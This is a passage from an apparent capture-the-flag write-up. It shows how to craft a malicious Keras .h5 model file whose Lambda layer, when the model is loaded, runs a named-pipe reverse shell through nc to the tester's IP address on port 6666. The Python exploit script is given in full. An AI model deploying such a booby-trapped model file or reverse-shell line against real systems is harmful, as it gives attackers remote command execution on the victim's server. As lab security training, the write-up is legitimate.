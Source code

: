 Login using the credentials at:  `/login`

![artificiallogin.png](artificiallogin.png)

### Exploit: Malicious .h5 Upload

We noticed AI model uploads, so we craft a malicious `.h5` file using Python.

Replace 10.10.14.93 with your ip.

Also, I jumped the gun here and created the file with python.

But you could have just used the dockerfile.

For the sake of the writeup, I’m going to show the method that I used to keep it authentic:

```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.93 6666 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

Install necessary dependencies via `requirements.txt`, then run:

```bash
python3 exploit.py
```
